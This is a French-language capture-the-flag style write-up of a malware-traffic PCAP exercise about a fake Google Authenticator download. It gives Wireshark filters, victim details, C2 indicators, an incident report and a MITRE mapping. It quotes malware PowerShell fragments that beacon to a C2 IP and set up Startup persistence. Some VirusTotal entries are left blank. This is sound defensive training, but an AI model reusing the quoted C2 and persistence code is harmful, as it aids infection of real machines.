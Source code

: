 ## 🕵️‍♂️ MTA-2025-01-22

🔍[Source](https://www.malware-traffic-analysis.net/2025/01/22/index.html) 


---

### 📌 Contexte

- Un utilisateur télécharge un faux logiciel (Google Authenticator) depuis un site frauduleux, entraînant l’infection de son poste Windows et la communication avec plusieurs serveurs C2. 
- Ce document contient une **analyse pas-à-pas avec captures d’écran** pour chaque question.
  
<img src="images/open.png" alt="open" width="800"/>

---

### 🧰 Outils utilisés

- [Wireshark](https://www.wireshark.org/download.html)
- [Kali Linux](https://www.kali.org/)
- [VMware](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)
- [VirusTotal](https://www.virustotal.com/gui/home/upload)
- [MITRE ATT&CK](https://attack.mitre.org/)

---

### 📝 Questions & Analyse

#### Q1. What is the IP address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Ouvrir le PCAP (via terminal ou fichier directement)

  - Étape 2 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`10.1.17.215`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q1.png" alt="q1" width="800"/>
</details>


---

#### Q2. What is the mac address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`00:d0:b7:26:4a:74`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q2.png" alt="q2" width="800"/>
</details>


---

#### Q3. What is the host name of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Dans certains PCAPs, tu peux retrouver le nom d’hôte Windows de la victime grâce au trafic **NBNS ou SMB/SMB2**. Utiliser le filtre approprié.

        nbns or smb or smb2
</details>


<details>
  <summary>✅ Réponse</summary>
  
`DESKTOP-L8C5GSJ`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q3.png" alt="q3" width="800"/>
</details>


---

#### Q4. What is the user account name from the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer les paquets Kerberos provenant de la machine infectée.
  
          ip.src == 10.1.17.215 and kerberos.CNameString
    
  - Étape 2 : Inspecter le champ `CNameString` dans le panneau *Packet Details* pour relever le nom d’utilisateur.
</details>


<details>
  <summary>✅ Réponse</summary>
  
`shutchenson`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q4.png" alt="q4" width="800"/>
</details>


---

#### Q5. What is the likely domain name for the fake Google Authenticator page?
<details>
    <summary>💡 Étapes</summary>
    
- Étape 1 : Appliquer un filtre pour isoler les requêtes DNS émises par l’hôte 10.1.17.215.
  
      ip.src == 10.1.17.215 && (dns && dns.flags.response == 0) && dns.qry.name matches "(auth|google|authenticator)"
  
      ⚠️ dns.flags.response == 0 pour ne filtrer que les DNS queries initiées par le client.
- Étape 2 : Repérer le ou les domaines suspects qui imitent Google Authenticator.

      ⚠️ Un domaine avec une faute de frappe évidente (ex. double "o") est généralement un signe de domaine malicieux.

- Étape 3 : Vérifier les réponses DNS pour obtenir les adresses IPv4 résolues par ces domaines.
    
        (dns.qry.name == google-authenticator.burleson-appliance.net || dns.qry.name == authenticatoor.org) && dns.flags.response == 1 && dns.qry.type == 1

      ⚠️ dns.flags.response == 1 capture uniquement les réponses (!= client).
      ⚠️ dns.qry.type == 1 limite aux enregistrements A (== IPv4).
  
- Étape 4 : Vérifier la réputation des domaines/IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).



</details>  

<details>
  <summary>✅ Réponse</summary>
  
`google-authenticator.burleson-appliance.net`

`authenticatoor.org`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q5a.png" alt="q5a" width="800"/>
<img src="images/q5b.png" alt="q5b" width="800"/>
<img src="images/q5c.png" alt="q5c" width="800"/>
<img src="images/q5d.png" alt="q5d" width="800"/>
<img src="images/q5e.png" alt="q5e" width="800"/>
<img src="images/q5f.png" alt="q5f" width="800"/>
<img src="images/q5g.png" alt="q5g" width="800"/>
<img src="images/q5h.png" alt="q5h" width="800"/>
<img src="images/q5i.png" alt="q5i" width="800"/>
<img src="images/q5j.png" alt="q5j" width="800"/>
<img src="images/q5k.png" alt="q5k" width="800"/>
</details>


<details>
  <summary>🔗 Liens VirusTotal</summary>
    
[google-authenticator.burleson-appliance[.]net](https://www.virustotal.com/gui/domain/google-authenticator.burleson-appliance.net)

[authenticatoor[.]org](https://www.virustotal.com/gui/domain/authenticatoor.org)

[104.21.64[.]1](https://www.virustotal.com/gui/ip-address/104.21.64.1)

[82.221.136[.]26](https://www.virustotal.com/gui/ip-address/82.221.136.26)

</details>


---


#### Q6. What are the IP addresses used for C2 servers for this infection?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Appliquer un filtre pour identifier tous les adresses IP sortants de l’hôte infecté.

        ip.src == 10.1.17.215 && (http.request or tls.handshake == 1 or (tcp.flags.syn == 1 && tcp.flags.ack == 0)) && !(ssdp) && ip.dst != 10.1.17.0/24
        
  - Étape 2 : Filtrer les adresses IP internes/légitimes
    
          ⚠️ Trafic vers réseau interne (10.1.17.0/24)
          ⚠️ Services connus comme Microsoft, Google, Edge, etc.

  - Étape 3 : Vérifier la réputation des adresses IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).
</details>


<details>
  <summary>✅ Réponse</summary>
  
`5.252.153[.]241`

`45.125.66[.]32`

`45.125.66[.]252`

</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q6a.png" alt="q6a" width="800"/>
<img src="images/q6b.png" alt="q6b" width="800"/>
<img src="images/q6c.png" alt="q6c" width="800"/>
</details>

<details>
  <summary>🔗 Liens VirusTotal</summary>

[5.252.153[.]241](https://www.virustotal.com/gui/ip-address/5.252.153.241)

[45.125.66[.]32](https://www.virustotal.com/gui/ip-address/45.125.66.32)

[45.125.66[.]252](https://www.virustotal.com/gui/ip-address/45.125.66.252)

</details>


---

### 🕵️‍♂️ Rapport d'incident
<details>

    
#### 📌 Résumé

Le 2025-01-22 à 15:03 UTC, un poste Windows utilisé par l’utilisateur `shutchenson` a été compromis suite au téléchargement d’un logiciel frauduleux depuis un site imitant Google Authenticator (`authenticatoor[.]org`).

Le malware a installé plusieurs fichiers malveillants, mis en place un mécanisme de persistance au démarrage, et établi une communication avec plusieurs serveurs de command-and-control (C2) pour assurer un contrôle continu de la machine compromise.

---

#### 🖥️ Détails de la victime

- Nom d'utilisateur : `shutchenson`
- Nom d'hôte : `DESKTOP-L8C5GSJ`
- IP locale : `10.1.17[.]215`
- Adresse MAC : `00:d0:b7:26:4a:74`

---
#### 🚨 Indicateurs de compromission (IoCs)

Domaines/URLs suspects :
- `google-authenticator.burleson-appliance[.]net`
- `authenticatoor[.]org` 

Serveurs C2 :
- `5.252.153[.]241`
- `45.125.66[.]32`
- `45.125.66[.]252`

Ports :
- `TCP/80 (HTTP)`
- `TCP/443 (HTTPS)`

Fichiers suspects :
- `TeamViewer[.]exe` 
- `TV[.]dll` 
- `pas[.]ps1`
- `skqllz[.]ps1`

Persistance :
- Raccourci dans le dossier Startup `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\TeamViewer.ln`

---

#### 🔍 Analyse Détaillée
<details>
    
1️⃣ Extraction et exécution de scripts

- Le client effectue une requête `GET /api/file/get-file/264872` et récupère un composant HTML contenant un **VBScript**.
- Le VBScript télécharge et exécute un script PowerShell depuis `http://5.252.153[.]241:80/api/file/get-file/29842.ps1`.
- L’exécution est masquée grâce à `-WindowStyle Hidden` et `start /min`.
- Ouverture d’un site légitime (https://azure.microsoft.com) pour distraire l’utilisateur.
- Gestion des erreurs avec `On Error Resume Next` afin d’assurer la continuité du script.

2️⃣ PowerShell initial (`29842.ps1`)

- Contient une chaîne Base64 dissimulée via `.replace()`.
- Décodage et exécution dynamique avec `Invoke-Expression`.
- Identification de l’hôte **via le numéro de série du disque C:**

```$fso = New-Object -Com "Scripting.FileSystemObject"
$SerialNumber = $fso.GetDrive("c:\").SerialNumber
$SerialNumber = [convert]::toint64($SerialNumber,16)
$serial = $SerialNumber
$ip = 'http://5.252.153.241/'
$url = $ip+$serial
```

- Boucle infinie de téléchargement et exécution de commandes depuis le serveur C2, avec l'ajout de pauses de 5 secondes pour limiter la détection.

3️⃣ Téléchargement de fichiers et persistance

- Création du dossier `C:\ProgramData\huo` et téléchargement de plusieurs fichiers :
- `TeamViewer.exe` → exécutable principal
- `Teamviewer_Resource_fr.dll` → bibliothèque de support
- `TV.dll` → bibliothèque additionnelle
- `pas.ps1` → script secondaire
- Création d’un raccourci dans le dossier Startup pour assurer la persistance (`.lnk`):

```
$shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"
Create-Shortcut $startupFilePath $shortcutPath
```

4️⃣ PowerShell furtif (`skqllz.ps1`)

- Script dissimulé avec des variables aléatoires, concaténations et remplacement de caractères.
- Décodage Base64 pour générer le script principal.
- Exécution en arrière-plan via `Start-Process`.
- Envoi régulier de logs au serveur C2 avec la fonction `Send-Log`.

5️⃣ Investigation des fichiers dans [VirusTotal](https://www.virustotal.com/gui/home/url)

- Le fichier `[.]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : ``
- Type : 
- Community score :
- [Lien VirusTotal]

--

- Le fichier `[.]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : ``
- Type : 
- Community score :
- [Lien VirusTotal]

--

- Le fichier `[.]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : ``
- Type : 
- Community score :
- [Lien VirusTotal]

--

- Le fichier `pas[.]ps1` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e`
- Type : text type, ASCII text, with very long lines (1513 bytes), with CRLF line terminators
- Community score : flagged par 24 sur 60 == probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e/details)




</details>

---

#### 🕵️ MITRE ATT&CK Mapping
<details>
    
| Tactique                     | Technique (ID)                              | Description |
|-------------------------------|--------------------------------------------|------------------|
| Initial Access                | [Drive-by Compromise (T1189)](https://attack.mitre.org/techniques/T1189/)                | Téléchargement du logiciel frauduleux depuis un site imitant Google Authenticator |
| Execution                     | [PowerShell (T1059.001)](https://attack.mitre.org/techniques/T1059/001/)                     | Exécution de scripts PowerShell dissimulés |
| Persistence                   | [Startup Items (T1547.001)](https://attack.mitre.org/techniques/T1547/001/)                  | Raccourci dans le dossier Startup pour exécution automatique |
| Defense Evasion               | [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)   | Scripts PowerShell et VBScript fortement dissimulés |
| Command and Control (C2)      | [Web Service (T1071.001)](https://attack.mitre.org/techniques/T1071/001/)                    | Communication avec serveur C2 via HTTP |
| Discovery                     | [System Information Discovery (T1082)](https://attack.mitre.org/techniques/T1082/)      | Récupération du numéro de série du disque pour identification unique |

</details>

---

#### 🛡️ Actions correctives recommandées

1. **Isolation** : déconnecter le poste pour stopper toute propagation.
2. **Blocage des IP malveillantes** : filtrer les adresses C2 sur le pare-feu et la passerelle.
3. **Analyse forensique** : identifier tous les fichiers et scripts malveillants sur le poste et le réseau.
4. **Audit des logs** : détecter toute activité suspecte supplémentaire.
5. **Renforcement des défenses** : mettre à jour antivirus, solutions EDR et restrictions PowerShell.
6. **Sensibilisation des utilisateurs** : rappeler les bonnes pratiques pour éviter les téléchargements depuis des sources non fiables.

---

#### 🔹 Conclusion

L’incident a été limité à un seul poste à ce stade, mais le potentiel de propagation et d’exfiltration de données reste élevé. La mise en œuvre rapide des actions correctives est cruciale pour sécuriser l’environnement et prévenir d’éventuelles attaques futures.
</details>

